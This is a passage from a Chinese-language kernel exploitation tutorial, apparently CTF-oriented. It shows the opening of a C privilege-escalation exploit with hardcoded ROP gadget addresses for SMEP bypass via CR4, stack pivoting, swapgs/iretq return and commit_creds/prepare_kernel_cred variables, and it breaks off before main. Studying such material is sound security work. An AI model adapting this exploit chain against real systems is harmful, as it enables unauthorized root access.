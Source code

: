 随后该种方法的`exp`如下，仍然是可以通过`main`函数中的注释来理解该方法：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdarg.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef
#define ADD_RSP_0x150_RET 0xffffffff812743a5
#define ADD_RSP_0X48_RET 0xffffffff8111fd8e
#define POP_RSP_RET 0xffffffff81171045

void info(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[34m\033[1m[*] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void success(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[32m\033[1m[+] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void error(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[31m\033[1m[x] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

size_t commit_creds = 0, prepare_kernel_cred = 0, work_for_cpu_fn = 0, init_cred = 0;

int seq_fd = 0;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t pop_rdi_ret = POP_RDI_RET;
size_t mov_cr4_rdi_pop_rbp_ret = MOV_CR4_RDI_POP_RBP_RET;
size_t add_rsp_0x48_ret = ADD_RSP_0X48_RET;
size_t pop_rsp_ret = POP_RSP_RET;

size_t rop[0x200] = {0, };
size_t function = (size_t)&rop[0];

void save_status()
{
```
